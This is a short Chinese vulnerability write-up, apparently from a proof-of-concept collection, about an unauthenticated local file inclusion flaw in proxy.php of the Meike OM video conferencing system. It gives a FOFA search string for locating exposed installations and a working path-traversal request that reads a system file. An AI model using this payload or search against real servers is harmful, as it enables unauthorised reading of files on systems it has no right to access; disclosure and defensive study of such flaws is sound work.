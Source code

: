 # 魅课 OM视频会议系统 proxy.php 文件包含漏洞

## 漏洞描述

魅课OM视频会议系统 proxy.php文件target参数存在本地文件包含漏洞。攻击者可借助该漏洞无需登录便可下载任意文件。

## 漏洞影响

```
魅课OM视频会议系统
```

## FOFA

```
app="OMEETING-OM视频会议"
```

## 漏洞复现

登录页面

![image-20220525153028849](./images/202205251530024.png)

验证POC

```
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

![image-20220525153105283](./images/202205251531338.png)